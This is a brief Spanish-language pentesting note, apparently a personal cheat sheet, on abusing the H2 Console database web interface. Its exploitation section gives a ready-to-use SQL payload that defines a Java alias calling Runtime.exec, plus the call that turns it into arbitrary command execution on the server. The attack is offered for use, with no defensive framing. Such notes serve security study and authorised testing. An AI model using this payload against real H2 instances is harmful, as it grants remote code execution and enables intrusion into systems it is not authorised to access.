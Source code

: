 ----
- Tags: #teoria #practica 
- -----
# H2 Console 
### **H2 Console** es un sistema administrador de bases de datos relacionales porgramado en java. Puede ser incorporado en aplicaciones Java o ejecutarse de modo cliente-servidor. 

-----
# Explotación 

### Puede ser interesante tener en cuenta a la hora de iniciar sesión en este servicio cambiar el path (Ya que en caso de estar en uso, puede tirarnos error de inicio de sesión siendo falso.)

![[possible_login_fix_h2_consoe.png]]
### Ahora si, para abusar de este servicio web, podríamos inyectar la siguiente query SQL: 

```sql
CREATE ALIAS cmd AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
### Una vez ejecutada la anterior sentencia, ahora podremos hacer uso de **cmd** como función para ejecutar comandos: 

```sql
call cmd('{command_to_execute}'); 
```

